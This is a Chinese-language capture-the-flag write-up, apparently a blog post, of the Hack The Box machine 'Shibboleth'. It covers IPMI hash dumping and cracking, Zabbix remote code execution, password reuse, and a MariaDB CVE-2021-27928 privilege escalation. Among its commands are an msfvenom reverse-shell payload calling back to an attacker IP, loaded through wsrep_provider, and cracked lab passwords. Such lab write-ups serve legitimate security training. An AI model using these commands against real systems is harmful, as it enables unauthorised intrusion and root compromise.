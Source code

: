 ```yaml
---
title: Shibboleth
date: 2022-01-13 17:37:59
tags: Hack the box
categories: 中间件安全
---
```


## 信息收集
只做一个简单的扫描，发现只开放了web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/97c60e806c6d413eb3524efdf5cbdb9c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/19faecaea42a449ba7cf1bc2244db896.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
fuzz了一下路径，并没有发现任何有价值的路径信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d1c7ad510a74a089d925f6c3b674ead.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将思路转换到子域名挖掘上，发现了三个子域，我们将它们逐一访问的时候发现都同时指向同一个登录页面

```bash
wfuzz -c -u "http://shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 26 -H "HOST:FUZZ.shibboleth.htb"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/520287b9831e4eafa7e8f56cb80b2463.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5cd36cb1f22d4ffc97f718b00a6170eb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
我们对这个表单进行SQL注入漏洞的检测时，并没有发现存在注入，也没有发现对应的中间件漏洞，到这里我的思路断了。我在反思它是个靶场肯定是有漏洞点的，可能是我信息收集那块做得不够细致。因此我对靶场进行UDP端口的扫描，查看是否存在漏扫的地方。扫描时发现开放了623端口的asf-rmcp服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d6296236bc149bb9e96a7c0219733f9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
在搜索引擎上搜索时，发现了对应的漏洞利用复现。漏洞利用的方式是使用MSF框架的对应模块进行漏洞的检测
![在这里插入图片描述](https://img-blog.csdnimg.cn/c1bceb8bee654c4d82f8bd3ecd59c2a9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/53abaaec2bdc4593a1cc5de0b865f47e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
设置好对应的参数后，发现IPMI的版本是2.0
![在这里插入图片描述](https://img-blog.csdnimg.cn/5430d56678624006bcb42e414ff0a16e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们可以尝试使用下载哈希的模块，尝试能否将用户对应的hash值下载下来。我们发现对应的管理员的哈希值，我们可以将哈希值保存下来，使用hashcat进行密码破解，因为对应的加密方式是IPMI，因此我们可以筛选一下![在这里插入图片描述](https://img-blog.csdnimg.cn/8ddb20fb646844cb8c2c59c9be1da693.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
对应的编号是7300，解密出来的密码是`ilovepumkinpie1`。

```bash
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d0ed66d101f41c593497ac9adc49a27.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8bba274825dc42cba553281a16464f09.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以拿这个账号密码登录进zabbix的管理员页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/85d21ce1938d44168a00a9fbfc97ee33.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
查阅对应的漏洞复现文章发现，在Configuration的hosts处，可以添加对应的脚本，实现RCE漏洞的执行
![在这里插入图片描述](https://img-blog.csdnimg.cn/aa4967975c894ae188bd13955e787130.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/99a13f40d5a6484dac50075d8cf77c10.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b9ceff97b59546599dedd240624fca25.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在key处添加我们要执行的RCE代码内容，点击添加并执行，期间我们开启对应的监听端口，可以反弹一个shell到本地终端上
![在这里插入图片描述](https://img-blog.csdnimg.cn/89a3911aa36b420887970de69515048e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0622899df61434e924f6d2b2b2ab3b2.png)
## 提权
我们确实是获得了一个终端，但是并没有权限查看到user.txt的内容，我们得想办法提权到ipmi-svc这个账户的权限上
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4b5288c956948ba9dd4b917f5396c02.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们下意识可以尝试，使用Administrator账户的密码看看是否能成功。令人很意外的是，居然成功了
![在这里插入图片描述](https://img-blog.csdnimg.cn/586fc07ad39344f8858fd00d7dbdb3d1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那下一步就是拿取root权限了，我上传了个linpeas.sh脚本到目标主机上进行检查，但是并没有发现任何有价值的信息。但是我们查看本地的端口时，发现开放了mysql服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/1cabb3c6e28b43f5a42c5b3bb9d2e9c8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们进入到zabbix的目录上，筛选信息发现了数据库的密码为`bloooarskybluh`，用户名为`zabbix`
![在这里插入图片描述](https://img-blog.csdnimg.cn/2423387ead4747a28f952d7b47bab881.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c46ad8d982584668af369bfe0217eb1c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试登录到数据库上，数据库的版本为`10.3.25`
![在这里插入图片描述](https://img-blog.csdnimg.cn/c99b6814e5f94d5796ef64db705d2fe9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我尝试过搜寻数据库中对应账户的密码进行解密，但是都无功而返。切换一种思路，我搜寻到了mysql对应版本的漏洞信息。文章中说明了这个版本的mysql存在RCE漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/88dd5b53214b46a1b29cf0f8250eadfd.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我在github上找到一个漏洞利用的脚本，这是链接[https://github.com/Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)
![在这里插入图片描述](https://img-blog.csdnimg.cn/11fbc233c5ad4caa848e064466e57189.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
根据提示来，我们先生成一个对应的payload，再开启监听反弹一个root的shell到本地上

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=4445 -f elf-so -o payload.so
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ba5f1d4ea3274eadaa72fd212301296f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后把payload文件上传到目标主机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/d37c053a543346549047aa87a86b4409.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
最后登录到mysql里，执行这么一段指令`SET GLOBAL wsrep_provider="/tmp/payload.so";`，获得root权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/cab9ce62d2c54b2d8ef5236665166e5d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 总结
这个靶机还是相当出色的，首先一般的扫描只能扫描到80的web服务，因为web服务最多就只能发掘到子域的登录表单上，之后就断思路了。所以还得扫描UDP的端口，这个就不是特别多人能够想得到，进行登录操作后，又得考验对zabbix的RCE漏洞利用，这个要求也比较高，然后再到root的提权上，很充分地考查了对中间件安全的知识，总体来说这是一个相当出色的靶机。
